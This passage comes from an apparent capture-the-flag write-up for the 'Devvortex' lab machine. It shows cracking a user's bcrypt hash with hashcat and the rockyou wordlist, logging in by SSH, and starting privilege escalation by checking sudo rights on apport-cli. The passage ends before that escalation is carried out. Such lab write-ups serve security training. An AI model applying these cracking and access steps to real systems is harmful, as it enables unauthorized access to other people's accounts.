 Now, we crack the `logan` hashed password using `hashcat`.
Fisrt, we save the hashed password in the `hash.txt` file, then we execute `hashcat`:

```
hashcat -a 0 -m 3200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

After a while...

### logan

With the `logan` password we can perform a new lateral movement and connect as `logan` using `ssh`:

```
ssh logan@10.10.11.242
```

### User flag

We can get our user flag now:

```
cat user.txt
```

## Privilege escalation

We check our sudo cappabilities and we find that we can execute `/usr/bin/apport-cli` as root:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

We take a look and we can see that the binary is used to report crash records:

```
logan@devvortex:~$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
```